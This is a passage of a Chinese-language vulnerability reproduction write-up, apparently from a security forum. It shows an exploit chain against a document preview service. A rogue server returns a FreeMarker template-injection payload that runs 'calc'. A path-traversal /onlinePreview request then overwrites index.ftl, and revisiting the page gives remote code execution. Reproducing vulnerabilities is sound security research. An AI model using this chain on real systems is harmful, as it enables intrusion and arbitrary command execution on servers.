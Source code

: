![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-a538fd0e6b4283eb382322b534f985a2ff271389.png)

修改服务器代码，返回恶意代码，记得重启服务器。

```python
self.wfile.write(b'<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}')
```

利用目录穿越覆盖掉文件

```php
/onlinePreview?url=aHR0cDovLzEyNy4wLjAuMTo4ODg4P2Z1bGxmaWxlbmFtZT0uLi8uLi8uLi90YXJnZXQvY2xhc3Nlcy93ZWIvaW5kZXguZnRs
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-a94ec7c7ce3d2e4a27ef29b4817947ab27fb7cf3.png)

再次访问地址，造成RCE

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-2232a612fd7e7b310c048e9495b6b85938c7b889.png)